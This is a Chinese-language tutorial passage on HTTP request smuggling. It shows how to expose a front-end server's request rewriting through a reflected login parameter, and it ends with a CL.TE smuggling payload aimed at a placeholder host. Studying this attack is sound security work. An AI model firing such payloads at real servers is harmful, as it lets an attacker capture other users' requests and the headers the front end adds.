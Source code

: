 [![](assets/1704418275-e81db5ef7e03bb5171d4ecdb0298a753.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155559-884287b0-aa0d-1.png)

### 请求重写

在许多应用程序中前端服务器在将请求转发到后端服务器之前会对请求进行一些重写，通常是通过添加一些额外的请求头，例如：前端服务器可能

-   添加一些攻击头敏感信息
-   添加包含用户IP地址的X-Forwarded-For
-   根据用户的会话令牌确定用户的ID并添加标识用户的标头

在某些情况下如果您的走私请求缺少一些通常由前端服务器添加的头，那么后端服务器可能不会以正常方式处理请求，从而导致走私请求无法达到预期的效果，通常有一种简单的方法来检测前端服务器是如何重写请求的，为此您需要执行以下步骤：

-   首先找到一个POST请求并是那种可以将请求参数的值回显到应用程序的响应中的包
-   随后尝试随机排列参数，使反射的参数写在消息正文的最后
-   然后将这个请求偷偷发送到后端服务器，后面直接跟着一个普通的请求，您希望显示该请求的重写形式

假设应用程序有一个反映email参数值的登录函数：

```plain
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

这将会导致响应包中包含以下内容信息：

```plain
<input id="email" value="wiener@normal-user.net" type="text">
```

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
```
